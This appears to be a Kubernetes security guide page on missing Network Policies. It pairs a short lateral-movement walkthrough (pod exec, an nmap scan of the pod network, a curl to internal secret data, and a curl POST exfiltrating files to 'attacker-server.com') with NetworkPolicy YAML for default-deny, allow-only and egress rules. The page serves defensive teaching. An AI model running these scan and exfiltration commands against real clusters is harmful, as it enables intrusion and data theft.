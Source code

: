 ```yaml
---
sidebar_position: 4
title: Lack of Network Policies
description: Understanding the risks of unregulated network traffic in Kubernetes and implementing best practices with Network Policies.
---
```


# Lack of Network Policies

The absence of Network Policies in a Kubernetes cluster can lead to unrestricted communication between pods, allowing lateral movement and data exfiltration. Without network segmentation, an attacker who gains access to a single pod can move freely within the cluster.

---

## Exploitation Steps: Lateral Movement in Kubernetes

An attacker gains initial access to a compromised pod:

```bash
kubectl exec -it <compromised-pod> -- /bin/sh
```

### 1. Scan the Internal Network

The attacker discovers other pods and services in the cluster using internal scanning tools:

```bash
apt-get update && apt-get install -y nmap
nmap -p 80,443,8080 10.0.0.0/24
```

### 2. Access Sensitive Services

The attacker can connect to open services in other pods, such as databases or APIs:

```bash
curl http://10.0.0.15:8080/secret-data
```

### 3. Exfiltrate Data to an External Server

The attacker sends sensitive data to an external server using a simple HTTP request:

```bash
curl -X POST -d @/path/to/secret-data http://attacker-server.com/upload
```

### Result

The attacker can move laterally within the cluster, access sensitive data, and exfiltrate information without network restrictions.

---

## Mitigation Techniques and Fixes

### 1. Implement Default Deny Policies

**Issue:** By default, all pods can communicate with each other, creating security risks.<br/>
**Fix:** Apply a default deny policy to block all traffic by default.

#### Example of Default Deny Policy for Ingress and Egress

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: default
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

### 2. Create Allow-Only Policies

**Issue:** Lack of specific allow rules means that unwanted traffic is not blocked.<br/>
**Fix:** Use Network Policies to allow traffic only to specific pods or services.

#### Example Allowing Traffic Only to an Application Pod

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-app-traffic
  namespace: default
spec:
  podSelector:
    matchLabels:
      app: my-app
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          role: frontend
    ports:
    - protocol: TCP
      port: 80
```

### 3. Restrict Egress Traffic

**Issue:** Unrestricted outgoing traffic can leak sensitive data to external servers.<br/>
**Fix:** Define egress rules to control outbound connections.

#### Example Egress Policy Allowing Only Specific Destinations

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: restrict-egress
  namespace: default
spec:
  podSelector:
    matchLabels:
      role: database
  policyTypes:
  - Egress
  egress:
  - to:
    - ipBlock:
        cidr: 10.0.0.0/24
    ports:
    - protocol: TCP
      port: 5432
```

---

## Conclusion

To enhance security and limit lateral movement within the Kubernetes cluster:

- Implement default deny policies for ingress and egress traffic.
- Create specific allow rules using Network Policies.
- Regularly audit and validate network policies to ensure only necessary communication is allowed.
